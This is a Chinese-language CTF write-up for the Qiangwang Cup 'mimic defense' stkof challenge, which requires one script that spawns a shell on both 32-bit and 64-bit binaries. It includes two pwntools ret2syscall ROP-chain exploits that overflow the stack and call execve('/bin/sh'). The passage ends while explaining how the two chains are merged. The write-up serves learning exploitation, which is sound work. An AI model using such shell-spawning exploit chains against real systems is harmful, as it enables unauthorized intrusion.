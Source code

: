 ### 强网杯\_拟态\_stkof

采用了拟态防御，简单来说就是要用同一个脚本同时在 32 位和 64 位程序上 getshell 且两个程序的输出必须相同。

首先检查两个二进制文件，漏洞都是简单的栈溢出并且空间很大。区别在于可以溢出的长度相差 8 字节，这 8 字节应该就是能够用同一个脚本的关键所在。

容易想到利用常规 ret2syscall，分别写出 32 位和 64 位脚本：

```python
pop_eax = 0x80a8af6
pop_dcb = 0x806e9f1
int_80 = 0x80495a3
data = 0x80d7000

chain86 = [
    'a'*(0x10c+4),
    elf.sym['read'],
    pop_dcb,0,data,0x100,
    pop_dcb,0,0,data,
    pop_eax,0xb,
    int_80
]

payload = flat(chain86)
sa('?',payload)
s('/bin/sh\x00')
```

```python
pop_rax = 0x43b97c
pop_rdi = 0x4005f6
pop_rsi = 0x405895
pop_rdx = 0x43b9d5
syscall = 0x461645
data = 0x6a4e40

chain64 = [
    'a'*(0x110+8),
    pop_rax,0,pop_rdi,0,
    pop_rsi,data,pop_rdx,0x100,
    syscall,
    pop_rax,59,pop_rdi,data,
    pop_rsi,0,pop_rdx,0,
    syscall
]

payload = flat(chain64)
sa('?',payload)
s('/bin/sh\x00')
```

那么怎么把两者合并呢？这就需要用到 8 字节的栈溢出长度差，在这 8 字节中，我们分别调整 32 位程序和 64 位程序的 `esp` 和 `rsp` 指针，使得经过调整后栈上的返回地址指向 payload 的不同部分。
